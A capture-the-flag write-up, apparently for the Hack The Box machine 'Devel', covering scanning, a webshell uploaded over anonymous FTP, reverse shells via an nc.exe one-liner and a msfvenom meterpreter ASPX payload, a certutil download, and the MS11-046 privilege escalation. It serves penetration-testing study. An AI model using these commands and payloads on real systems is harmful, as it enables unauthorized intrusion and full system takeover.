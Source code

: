 ```yaml
---
description: Work In Progress...
---
```


# Devel

## Overview

## Enumeration

As always we start with an Nmap scan. This is the one I ran

```bash
 sudo nmap -sV -sC 10.129.203.118 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 16:45 EDT
Nmap scan report for 10.129.203.118
Host is up (0.034s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds
```

The scan reveals we have two services open: `Microsoft FTP` on `port 21` and `Microsoft IIS` web server on `port 80`.

### FTP

What's particularly interesting is that anonymous login is allowed on port 21 so let's explore that.

We'll make sure that anonymous login does work, which indeed it does.

![](<../../../../.gitbook/assets/image (11).png>)

However, there isn't anything useful for us here.

### IIS

We see what looks to be the default landing page for IIS

![](<../../../../.gitbook/assets/image (40) (1).png>)

Running a dirsearch on the website also did not prove to be useful.

### Curl

I ran a curl command with `-I` to get only the document info

```bash
curl -I http://10.129.203.118/
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Wed, 23 Mar 2022 21:06:06 GMT
```

Seeing that the server is running ASP.NET and I have access to FTP, I can probably upload a webshell

## Foothold w/o Metasploit

### Webshell

I decided to go with the webshell from SecLists

![](<../../../../.gitbook/assets/image (7).png>)

Now we'll upload it over ftp:

![](<../../../../.gitbook/assets/image (46).png>)

We can access our webshell by visiting `10.129.203.118/cmd.aspx`

![](<../../../../.gitbook/assets/image (25) (1).png>)

Here's what returns when entering `whoami`

![](<../../../../.gitbook/assets/image (50).png>)

### Reverse shell

I'll be getting a shell with `nc.exe`

I use impacket-smbserver to host a windows netcat executable to then execute a connection to my kali machine

![](<../../../../.gitbook/assets/image (2) (1).png>)

I also start a nc listener on my kali machine to catch a shell

![](<../../../../.gitbook/assets/image (2) (1) (3).png>)

Entering the following command into the webshell:

```
\\10.10.14.3\share\nc.exe -e cmd.exe 10.10.14.3 443
```

![](<../../../../.gitbook/assets/image (3).png>)

And I get a shell!

![](<../../../../.gitbook/assets/image (1).png>)

## Foothold w/ Metasploit

I'll create the payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=443 -f aspx > meterpreter_rev_443.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2873 bytes
```

Put it on the FTP server

```
ftp> put meterpreter_rev_443.aspx
local: meterpreter_rev_443.aspx remote: meterpreter_rev_443.aspx
229 Entering Extended Passive Mode (|||49186|)
125 Data connection already open; Transfer starting.
100% |**************************************|  2910       34.68 MiB/s    --:-- ETA
226 Transfer complete.
2910 bytes sent in 00:00 (100.65 KiB/s)
```

Use the Metasploit module `exploit/multi/handler`

![](<../../../../.gitbook/assets/image (16).png>)

Visit the page&#x20;

```
http://10.129.203.118/meterpreter_rev_443.aspx
```

And catch a shell!

![](<../../../../.gitbook/assets/image (72).png>)

## Privilege Escalation

Running systeminfo in the shell shows us some good information

![](<../../../../.gitbook/assets/image (44).png>)

In particular, I'm interested in the OS Version, so I look up priv esc for this build and find a nice exploit to use.

{% embed url="https://www.exploit-db.com/exploits/40564" %}

Per the description:

> **Vulnerability description:**
>
> The Ancillary Function Driver (AFD) supports Windows sockets applications and is contained in the afd.sys file.&#x20;
>
> The afd.sys driver runs in kernel mode and manages the Winsock TCP/IP communications protocol.&#x20;
>
> An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel.&#x20;
>
> An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability.&#x20;
>
> An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges)

We'll compile the code as suggested by the exploit

![](<../../../../.gitbook/assets/image (52).png>)

```
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Since we don't have full access to any user, we'll create a temp directory inside the Public folder and use something like certutil to upload the exploit and use a python http server to aid in the transfer

```
certutil -urlcache -f http://10.10.14.13/MS11-046.exe MS11-046.exe
```

![](<../../../../.gitbook/assets/image (8).png>)

![](<../../../../.gitbook/assets/image (70).png>)

Now we will run the exploit which should give us NT Auth\System level privileges

![](<../../../../.gitbook/assets/image (45).png>)

With our exploit executing successfully, we'll grab both the user and root flags!

![](<../../../../.gitbook/assets/image (56).png>)

![](<../../../../.gitbook/assets/image (23) (1).png>)
